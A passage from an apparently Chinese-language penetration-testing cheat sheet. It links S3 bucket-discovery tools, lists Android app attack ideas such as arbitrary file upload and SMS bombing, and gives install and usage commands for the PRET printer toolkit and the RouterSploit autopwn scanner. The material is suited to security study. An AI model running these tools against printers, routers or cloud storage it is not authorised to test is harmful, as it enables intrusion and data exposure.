- [brianwarehime/inSp3ctor](https://github.com/brianwarehime/inSp3ctor)
- [PayloadsAllTheThings/AWS Amazon Bucket S3](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/- [](AWS%20Amazon%20Bucket%20S3)
- [eth0izzle/bucket-stream](https://github.com/eth0izzle/bucket-stream)

**文章**
- [How security researchers discover open Amazon S3 servers](https://www.devicelock.com/blog/how-security-researchers-discover-open-amazon-s3-servers.html)
- [Blog, Whats in Amazon's buckets? - DigiNinja](https://digi.ninja/blog/whats_in_amazons_buckets.php)
- [Bucket Finder - DigiNinja](https://digi.ninja/projects/bucket_finder.php)

---

# 7工控/IoT/物理
## 物联网设备
### Camera


### Mobile
#### Android
##### apk渗透
基本与web姿势相同
- 任意号码注册
- 任意文件下载
- 任意文件上传
- 短信重置密码接口(短信轰炸)

---

### Printer
**PRET**
Installation
```bash
git clone https://github.com/RUB-NDS/PRET.git
cd PRET

pip install colorama pysnmp
```

Usage
```bash
python2 ./pret.py
python2 ./pret.py xxx.xxx.xxx.xxx pjl
python2 ./pret.py xxx.xxx.xxx.xxx ps
python2 ./pret.py xxx.xxx.xxx.xxx pcl
```

---

### Router
**routersoloit**
Installation
```bash
git clone https://www.github.com/threat9/routersploit.git
cd routersploit
python3 -m pip install -r requirements.txt
python3 rsf.py
```

Usage
```bash
use scanners/autopwn
set target
run
```

---

`你以为很多事是可以重复的,还有下一次,但你错了。包括你儿时的万花筒或纸飞机,抄作业或买糖果,早就是此生的最后一次。（韩少功 《日夜书》） `
